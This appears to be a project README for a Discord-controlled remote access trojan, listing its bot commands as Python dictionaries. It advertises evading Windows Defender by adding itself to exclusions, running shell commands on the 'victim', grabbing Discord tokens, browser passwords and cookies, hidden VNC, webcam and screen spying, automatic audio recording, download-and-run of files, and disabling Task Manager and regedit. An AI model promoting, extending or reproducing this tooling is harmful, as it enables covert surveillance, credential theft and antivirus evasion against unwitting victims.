 # COMPLETELY UPDATED

MADE IT TO WHERE IF IT IS RAN AS ADMIN IT IMMEDIATELY ADDS IT SELF TO EXCLUSIONS WINDOWS DEFENDER, AND IF THEY ACCEPT THE UAC PROMPT WHEN YOU DO !getadmin IT WILL AUTOMATICALLY ADD IT SELF TO THE EXCLUSIONS TO

# COMMANDS ⬇

        {"name": f"{PREFIX}screenshot", "value": "Takes a screenshot of the system and sends it to the channel"},
        {"name": f"{PREFIX}shell", "value": "Executes a shell command on the victim and returns the output"},
        {"name": f"{PREFIX}hiddenvnc", "value": "Remote screen control with interactive GUI"},
        {"name": f"{PREFIX}restart", "value": "Does what it says, restarts the victims computer"},
        {"name": f"{PREFIX}bluescreen", "value": "Bluescreens the victims computer"},
        {"name": f"{PREFIX}vnchelp", "value": "All commands for hiddenvnc"},
        {"name": f"{PREFIX}chat", "value": "Opens a chat where you can then talk to the victim"},
        {"name": f"{PREFIX}endchat", "value": "Will close the chat window"},
        {"name": f"{PREFIX}grabtoken", "value": "Grabs all tokens on victims computer"},
        {"name": f"{PREFIX}disableav", "value": "Doesnt Disable AV but adds itself to exclusions if it has admin"},
        {"name": f"{PREFIX}disabletaskmanager", "value": "Disables taskmanager"},
        {"name": f"{PREFIX}disableregedit", "value": "Disables regedit"},
        {"name": f"{PREFIX}getadmin", "value": "Pops up with a UAC prompt and if accepted you get admin"},
        {"name": f"{PREFIX}webcam", "value": "Takes a photo using the system's webcam and sends it to the channel"},
        {"name": f"{PREFIX}screen [duration]", "value": "Provides a live view of the screen, updating every 0.5 seconds. Optional duration in seconds (default: 30, max: 300)"},
        {"name": f"{PREFIX}stopscreen", "value": "Stops the live screen view"},
        {"name": f"{PREFIX}grabpasswords", "value": "Might grab all passwords depending on browser"},
        {"name": f"{PREFIX}webcamstream [duration]", "value": "Provides a live view of the webcam, updating every 0.5 seconds. Optional duration in seconds (default: 30, max: 300)"},
        {"name": f"{PREFIX}stopwebcam", "value": "Stops the live webcam view"},
        {"name": f"{PREFIX}media", "value": "Plays a media file on the target system. Attach an MP4, MP3, or other media file to your message"},
        {"name": f"{PREFIX}search [query]", "value": "Searches Google for the specified query and displays it in full screen"},
        {"name": f"{PREFIX}background", "value": "Changes the desktop background. Either attach an image or provide a URL to an image"},
        {"name": f"{PREFIX}clipboard [text]", "value": "Without text: Shows the current clipboard contents. With text: Sets the clipboard to the provided text."},
        {"name": f"{PREFIX}grabcookies", "value": "Grabs all cookies from browsers."},
        {"name": f"{PREFIX}downloadfileandrun", "value": "Downloads an attached file and runs it on the target system. Attach the file you want to execute."},
        {"name": f"{PREFIX}disableaudio", "value": "Disables (mutes) the system audio until enabled again"},
        {"name": f"{PREFIX}enableaudio", "value": "Enables (unmutes) the system audio"},
        {"name": f"{PREFIX}shutdown [delay]", "value": "Shuts down the target computer. Optional delay in seconds (default: 0)"},
        {"name": f"{PREFIX}end", "value": "Terminates the bot process on the target system"},
        {"name": f"{PREFIX}help", "value": "Shows this help message"},
        {"name": "Background Audio Recording", "value": "The system automatically records audio in 30-second segments and uploads them to the system's channel"}


# MORE COMING SOON
